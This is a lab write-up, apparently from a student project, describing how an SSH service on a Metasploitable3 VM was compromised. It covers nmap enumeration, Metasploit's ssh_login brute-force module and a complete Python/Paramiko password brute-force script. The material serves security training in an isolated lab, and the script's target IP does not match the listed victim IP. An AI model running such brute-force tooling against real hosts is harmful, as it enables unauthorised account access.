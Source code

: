 # Phase 1 Work
---

# Phase 1: Setup and Compromise the Service

## Overview

In this phase, we configured two virtual environments to simulate an attack scenario. The target machine (Metasploitable3) was configured with several known vulnerable services, and the attacker machine (Kali Linux) was used to compromise one of these services. The selected service for this phase was **SSH**, which was successfully compromised using both Metasploit and a custom script.

---

## 1. Environment Setup

### 🖥 Victim Environment: Metasploitable3
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.56.101
  ![لقطة شاشة 2025-04-29 225928](https://github.com/user-attachments/assets/3f0d03ed-c30f-46d7-a50d-3b23d42c9405)

-**Vulnerable Services Running:**
We executed the command nmap -sV 192.168.56.101 to perform a service version scan on the target machine. This allowed us to enumerate the active services and identify potential vulnerabilities, ultimately helping us select SSH as the target for exploitation.
![لقطة شاشة 2025-04-29 230118](https://github.com/user-attachments/assets/20f0d103-8a20-4df2-9e9c-70f95b7f92df)


### 💻 Attacker Environment: Kali Linuxs
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.56.102
  ![لقطة شاشة 2025-04-29 230105](https://github.com/user-attachments/assets/aba89bfb-3d89-4f8a-a34e-79832e7815d6)


#### Tools Used:
- Metasploit Framework
- Nmap
- Hydra
- Python 3 with Paramiko library
    
---

## 2. Selected Vulnerable Service

- **Targeted Service:** SSH (Port 22)  
- **Reason for Selection:** SSH on Metasploitable3 is configured with weak/default credentials, making it vulnerable to brute-force attacks or password reuse exploits.

---

## Service Enumeration

We scanned the target machine using `nmap` to identify open ports and determine which services were running.

Command used:
```
nmap -sV 192.168.56.101
```

## Task 1.1: Compromise Using Metasploit

Steps to exploit the SSH service:

1. Launch Metasploit:
   ```
   msfconsole
   ```
2. Search for the SSH login module:
   ```
   search ssh_login
   ```
3. Use the auxiliary scanner:
   ```
   use auxiliary/scanner/ssh/ssh_login
   ```
4. Configure the module:
   ```
   set RHOSTS 192.168.56.101
   set USER_FILE user.txt
   set PASS_FILE pass.txt
   run
   ```
5. Successful login confirms service compromise.

## Task 1.2 – Compromise Using Custom Script

- Developed a **Python script**:
  ```
  import paramiko
import time

host = "192.168.100.138"
port = 22
user_file = "/home/bdoor/user.txt"
pass_file = "/home/bdoor/pass.txt"

def try_login(username, password):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        ssh.connect(host, port=port, username=username, password=password, timeout=5)
        print(f"[+] SUCCESS: {username}:{password}")
        ssh.close()
        return True
    except paramiko.AuthenticationException:
        print(f"[-] Invalid:  {username}:{password}")
    except paramiko.SSHException as e:
        print(f"[!] SSH Error: {e}")
    except Exception as e:
        print(f"[!] Other Error: {e}")
    return False

with open(user_file, "r") as users:
    for user in users:
        user = user.strip()
        with open(pass_file, "r") as passwords:
            for pwd in passwords:
                pwd = pwd.strip()
                if try_login(user, pwd):
                    exit(0)
                time.sleep(1)  # Wait 1 second to avoid banner issues
  ```

---

## 5. Conclusion

We successfully exploited the SSH service running on Metasploitable3 using:
1. **Metasploit**, leveraging known default credentials.
2. A **custom Python script**, automating the brute-force and login process.



